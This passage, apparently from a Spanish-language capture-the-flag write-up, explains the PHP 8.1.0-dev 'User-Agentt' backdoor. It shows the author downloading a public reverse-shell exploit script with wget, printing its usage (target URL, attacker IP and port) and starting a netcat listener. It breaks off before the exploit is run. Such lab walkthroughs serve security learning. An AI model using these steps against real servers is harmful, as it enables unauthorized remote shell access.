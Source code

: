 En resumen, la versión de PHP 8.1.0-dev tiene una **Backdoor** que al parecer alguien dejo ahí, por lo que cualquier atacante puede usar esta **Backdoor** utilizando la cabecera **User-Agentt** (que esto fue lo que delato la **Backdoor**). Y este exploit se aprovecha de esto para otorgar una shell en el host.

Para que no pierdas el tiempo como yo, esta versión del Exploit no nos servirá, el mismo autor creó una **Reverse Shell**, usando el mismo Exploit. 

Esta versión la encontramos en su **GitHub**:
* <a href="https://github.com/flast101/php-8.1.0-dev-backdoor-rce" target="_blank">Repositorio de flast101: PHP 8.1.0-dev Backdoor Remote Code Execution</a>

<br>

<h3 id="Exploit2">Probando Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution</h3>

Vamos a descargar solamente la versión **Reverse Shell**:
```bash
wget https://raw.githubusercontent.com/flast101/php-8.1.0-dev-backdoor-rce/main/revshell_php_8.1.0-dev.py             
--2023-05-10 14:24:23--  https://raw.githubusercontent.com/flast101/php-8.1.0-dev-backdoor-rce/main/revshell_php_8.1.0-dev.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)
Conectando con raw.githubusercontent.com (raw.githubusercontent.com) conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 2318 (2.3K) [text/plain]
Grabando a: «revshell_php_8.1.0-dev.py»

revshell_php_8.1.0-dev.py         100%[============================================================>]   2.26K  --.-KB/s    en 0s      

2023-05-10 14:24:23 (60.6 MB/s) - «revshell_php_8.1.0-dev.py» guardado [2318/2318]
```

Si usamos el parámetro **-h**, nos explicará como usarlo:
```bash
python3 revshell_php_8.1.0-dev.py -h
usage: revshell_php_8.1.0-dev.py [-h] <target URL> <attacker IP> <attacker PORT>

Get a reverse shell from PHP 8.1.0-dev backdoor. Set up a netcat listener in another shell: nc -nlvp <attacker PORT>

positional arguments:
  <target URL>     Target URL
  <attacker IP>    Attacker listening IP
  <attacker PORT>  Attacker listening port

options:
  -h, --help       show this help message and exit
```

Necesitamos una **netcat**, activemos una:
```bash
nc -nvlp 443                   
listening on [any] 443 ...
```

